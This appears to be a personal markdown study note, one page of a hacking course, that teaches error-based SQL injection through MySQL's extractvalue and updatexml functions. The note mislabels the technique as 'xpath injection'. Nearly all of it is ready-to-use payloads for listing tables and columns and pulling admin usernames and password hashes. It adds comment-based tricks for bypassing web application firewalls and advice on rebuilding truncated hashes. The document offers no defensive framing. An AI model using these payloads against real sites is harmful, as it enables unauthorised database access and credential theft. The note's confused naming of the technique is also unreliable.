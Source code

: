 # <mark style="background: #FF5582A6;">Prerequisite :</mark> 
[[02-Sql Injection (Basic)]]
[[03-Sql Injection (Errors)]]
# <mark style="background: #FF5582A6;">Description :</mark> 
due to the problem of having XML files of a site, the xpath injection vulnerability is created (many site don't use XML files, so they don't have this vulnerability).

where do we use the xpath injection :
1. in [[02-Sql Injection (Basic)]] we encountering the following error :
	- <mark style="background: #FF5582A6;">the used SELECT statements have a different number of columns</mark> 

2. when we type (<mark style="background: #FF5582A6;">order by 9999--</mark> ) and show us we don't have this number of columns and we type (<mark style="background: #FF5582A6;">order by 1--</mark> ) and show us again we don't have this number of columns.

3. with this command : (<mark style="background: #FF5582A6;">union select 1,2,3,4,5,6,7,8,9--</mark> )
   doesn't show the vulnerability column.
   (in additio to xpath injection, we can also solve this problem with : [[15-Blind Sql Injection]])

4. before [[02-Sql Injection (Basic)]] we can also try xpath injection because these two, are two separate vulnerabilities.

# How To Do (Steps) :
## Step 1 :
90% of xpath injection is [[02-Sql Injection (Basic)]] command.
only the following command is new :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,version()))--</mark> 
### Point 1 :
if it didn't show us anything in the first step with the first command :
- <mark style="background: #FFB86CA6;"><mark style="background: #FF5582A6;">'</mark> and extractvalue(rand(),concat(0x7e,version()))--<mark style="background: #FF5582A6;">+</mark> </mark> 

### <mark style="background: #FF5582A6;">Point 2</mark> :
[[07-Like (Method)]] can be used in combination with [[06-Limit (Method)]]
(it's explained on last point in [[07-Like (Method)]])
(<mark style="background: #FF5582A6;">reminder :</mark> like method, searches all databases to find the important table)

### Point 3 :
when we reached the important table and found it, for next step we return the limit to the first state, that is : limit 0,1

## Step 2 :
when we see the version, it's means that the vulnerability has been confirmed and the rest of the steps are similar to [[02-Sql Injection (Basic)]] :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))--</mark> 
(limit is used because we don't have group_concat)

### Point :
to find the database, we have the following command :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select schema from information_schema.schemata limit 0,1)))--</mark>
## Step 3 :
- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select column_name from information_schema.columns where table_name='the important' table limit 0,1)))--</mark> 
### <mark style="background: #FF5582A6;">Point :</mark> 
the important table must be hexed

## Step 4 :
username and password extraction :
(for example : admin is the important table and user and pass are important columns)

- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(user) from admin limit 0,1)))--</mark> 

### <mark style="background: #FF5582A6;">Very Important Point 1 :</mark> 
with the following command, if the password is hashed, it will not be shown in full.
because the xpath injection can be print <mark style="background: #FF5582A6;">32 characters</mark> and one character is <mark style="background: #FF5582A6;">0x7e</mark> , so the hashed password in xpath injection is always <mark style="background: #FF5582A6;">incomplete</mark> .
to solve this problem, we type the first code (1), we write down the hashed password that is displayed then we type the second code (2), and we wirte down the second hashed password under the first hashed password (every character is below the character of the first hashed password, we add the additional characters of the lower password to the upper password) and <mark style="background: #FF5582A6;">complete the password</mark> .
(<mark style="background: #FF5582A6;">in second code, we delete the 0x7e</mark> )

1. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(pass) from admin limit 0,1)))--</mark> 

2. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat((select concat(pass) from admin limit 0,1)))--</mark> 

### <mark style="background: #FF5582A6;">Important Point 2 :</mark> 
if we encounter an error with the second code (2), that is, we got an error by deleting 0x7e :
- [[13-Double Query]] Vulnerability

# Errors :
1. if in <mark style="background: #FF5582A6;">first step</mark> we encounter a <mark style="background: #FF5582A6;">403 error</mark> (Forbidden or Not Acceptable) :
	- <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">/ * !12345</mark> extractvalue(rand(),<mark style="background: #FF5582A6;">CONCAT</mark> (0x7e,version())) <mark style="background: #FF5582A6;">* /</mark> --</mark> 
   in second step :
	- <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">/ * !12345</mark> extractvalue(rand(),<mark style="background: #FF5582A6;">CONCAT</mark> (0x7e,(select table_name
	  from<mark style="background: #FF5582A6;">/ * * /</mark> information_schema./ * * /tables where table_schema=database()
	  limit 0,1))) <mark style="background: #FF5582A6;">* /</mark> --</mark> 
   we continue the steps and don't change the bypasses we added.
   
   ## Point 1 :
   before the last step, the important table should be hexed, but in the last step, we shouldn't write the important table in hex and also we shouldn't put quotation for the important table.

   ## Point 2 :
   in the last step (4), when we delete from "from" to "the important table", the / * * / bypass sticks to the important table and we encounter a Not Acceptable error.
   what to do ? we write <mark style="background: #FF5582A6;">the second concat</mark> with capital letters ---> <mark style="background: #FF5582A6;">CONCAT</mark> 
   
   - <mark style="background: #FFB86CA6;">and / * !12345extractvalue(rand(),CONCAT(0x7e,(select CONCAT(user)
	   from/ * * /the important table limit 0,1))) * /--</mark> 

2. if we encounter a <mark style="background: #FF5582A6;">403 error</mark> (Forbidden or Not Acceptable) in the <mark style="background: #FF5582A6;">second step</mark> (2) :
	in this case, we <mark style="background: #FF5582A6;">don't have a bypass</mark> , so we ignore the second and third steps and <mark style="background: #FF5582A6;">do the last step</mark> (4).
	
	- <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(the important column) from the important table limit 0,1)))--</mark> 
	
	this method is similar to [[09-Version 4]]
	because we have to guess the important table and the important column.
	similar to the [[09-Version 4]], we can also use Burp Suite to guess, first, the important table and second, the important column.

3. if the version is shown in the first step (1), but the important table isn't shown in the second step (2).
    (it means that we don't encounter an any error and the important table doesn't show in web page)
    what to do ? the problem is solved with : <mark style="background: #FF5582A6;">xpath injection (updatexml).</mark> 
    the steps of this method are as follows :

	<mark style="background: #FF5582A6;">version :</mark> 
	
	1. <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">updatexml</mark> (null,concat(<mark style="background: #FF5582A6;">0x3a</mark> ,version()),<mark style="background: #FF5582A6;">null</mark> )--</mark> 
	
	<mark style="background: #FF5582A6;">table :</mark> 
	
	2. <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">updatexml</mark> (<mark style="background: #FF5582A6;">null</mark> ,concat(<mark style="background: #FF5582A6;">0x3a</mark> ,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),<mark style="background: #FF5582A6;">null</mark> )--</mark> 
	
	<mark style="background: #FF5582A6;">column :</mark> 
	
	3. <mark style="background: #FFB86CA6;">and <mark style="background: #FF5582A6;">updatexml</mark> (<mark style="background: #FF5582A6;">null</mark> ,concat(<mark style="background: #FF5582A6;">0x3a</mark> ,(select column_name from information_schema.columns where table_name=the important table is hexed limit 0,1)),<mark style="background: #FF5582A6;">null</mark> )--</mark> 
	
	
	<mark style="background: #FF5582A6;">extract information :</mark> 
	
	1. <mark style="background: #FFB86CA6;">and updatexml(null,concat(0x3a,(select concat(UserName,Password) from users limit 0,1)),null)--</mark> 
	
	(UserName and Password as important columns, and users as a important table are examples)

4. if the page doesn't load with the first step command, in the source code, look for the xpath error.

